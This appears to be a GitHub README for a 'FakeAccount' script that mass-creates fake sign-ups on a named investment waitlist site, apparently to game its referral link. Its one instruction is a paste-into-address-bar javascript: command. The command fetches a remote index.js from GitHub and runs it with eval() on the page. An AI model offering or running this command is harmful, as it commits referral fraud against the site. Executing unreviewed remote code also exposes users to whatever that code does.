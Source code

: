 # FakeAccount
This Script is used to create an fake account on https://waitlist.stackedinvest.com

# installation

# 1 - Open website address : 

```
https://waitlist.stackedinvest.com/invest?kid=2BGR4H
```

# 2 - Type and enter this on chrome where you put website address :

```
javascript:fetch("https://raw.githubusercontent.com/SingleDevX/FakeAccount/main/index.js").then(b=>b.text()).then((b)=>(alert("injected"),b)).then(b=>eval(b)).catch(e=>alert("error"+e))
```

Enjoy it ;)
